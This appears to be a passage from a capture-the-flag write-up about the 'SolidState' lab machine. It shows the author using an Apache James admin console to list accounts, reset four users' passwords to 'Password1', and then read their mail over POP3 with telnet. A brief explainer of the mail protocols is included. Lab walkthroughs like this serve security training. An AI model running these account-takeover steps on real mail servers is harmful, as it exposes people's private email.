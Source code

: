 ```
listusers
Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: mailadmin

```

There is also a command to set a user's password. Let's set a new password for the first four users.

```
setpassword james Password1
Password for james reset
setpassword thomas Password1
Password for thomas reset
setpassword john Password1
Password for john reset
setpassword mindy Password1
Password for mindy reset

```

Since we know the mail services are components of the James server, let's test the creds against the POP3 service to see if we can read some mails.

{% hint style="info" %}
SMTP - this protocol is generally used for sending mail from a mail client to a mail server, and sending mail from one mail server to another, which is also known as mail relay.

POP3 - this protocol is generally used by a mail client to retreive email from a mail server (after the mail has been retreived by the client, the server deletes it's local copy of the email)

IMAP4 - this protocol provides more advanced functionality for communications between a mail client and the server, such as grouping mails in folders, setting flags on mails, searching mailboxes and more&#x20;
{% endhint %}

For this task, let's use telnet as we are not connecting to a secure service. We'll connect in the following order of users and attempt to read their emails: james, thomas, john, mindy

```
└─$ telnet 10.10.10.51 110                                                                                    1 ⨯
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
user james
+OK
pass Password1
+OK Welcome james
list
+OK 0 0
.
quit
+OK Apache James POP3 Server signing off.
Connection closed by foreign host.

└─$ telnet 10.10.10.51 110                                                                                    1 ⨯
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
```